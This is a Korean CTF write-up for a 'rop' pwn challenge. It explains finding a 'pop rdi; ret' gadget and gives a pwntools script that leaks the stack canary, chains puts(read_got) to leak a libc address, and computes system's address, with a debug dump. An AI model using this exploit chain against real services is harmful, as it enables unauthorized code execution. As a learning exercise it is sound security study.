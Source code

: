 ROPgadget을 이용하여 pop rdi를 찾아본 결과 0x00000000004007f3 주소에 pop rdi ; ret의 가젯이 존재하는 것을 확인할 수 있다. 

그러면 코드는 아래와 같이 짤 수 있다. 이미 구한 카나리 값까지 이용해야 원하는 함수를 실행할 수 있으므로 아까 진행한 코드에 덧붙여서 진행해야 한다.

```python
from pwn import *

host=""
port=
p=remote(host,port)

# 카나리값 알아내기
payload=b'A'*0x39
p.sendafter("Buf: ",payload)
p.recvuntil(payload)
canary=u64(b'\x00'+p.recvn(7))
#print(canary)
canary=p64(canary)

e=ELF('./rop') # 파일 불러오기
library = ELF('./libc-2.27.so') # 라이브러리 불러오기

# read 함수의 got에 적혀있는 read함수의 라이브러리 주소를
# system 함수의 라이브러리 주소를 덮어 씌울 것이므로 read의 got주소를 알아야함
puts_plt = e.plt['puts'] # puts 함수의 plt 주소 0x400570
read_plt = e.plt['read'] # read 함수의 plt 주소 0x4005a0
read_got = e.got['read'] # read 함수의 got 주소
pop_rdi = 0x00000000004007f3

# 실행시키고자 하는 함수는 puts(read_got)이고 read 함수의 got 주소에 있는 값을 출력함.
# read 함수의 got 주소에는 read함수의 라이브러리에서의 주소가 나와있으므로 이를 알기 위함임
payload=b'A'*0x38+canary+b'A'*0x8 # buf(0x30) + 8바이트 + canary + SFP

payload += p64(pop_rdi) + p64(read_got) # pop rdi로 read의 got 주소를 매개변수로 설정
payload += p64(puts_plt) # puts의 plt 주소로 ret 되므로 puts(read_got) 실행
p.sendafter("Buf: ",payload)

# 즉 read got에 있는 라이브러리상 read의 주소가 출력이 된다.

read_library = u64(p.recvn(6)+b'\x00'*2) # 출력된 read의 라이브러리상 주소 저장
library_base = read_library-library.symbols['read']
system_library = library_base + library.symbols['system']

```

이 때 plt 주소는 elfsymbols 명령어를 사용해서 고정값으로 해줘도 된다. 하지만 plt는 PIE가 적용되어 있지 않을 때만 고정값이고 어차피 got 주소를 구할 때 e.got[’read’]형태로 쓰므로 똑같이 맞춰주었다.

이 때 read_library의 주소를 받아올 때 6바이트만 받아오고 나머지는 \x00으로 채우는 이유는 64비트에서 바이너리의 libc 주소는 우분투 환경에서 주로 0x7f로 시작되며 나머지는 0x00으로 채워지기 때문이다. 

```python
[DEBUG] Received 0x7 bytes:
    00000000  50 63 03 06  0a 7f 0a                               │Pc··│···│
    00000007
```
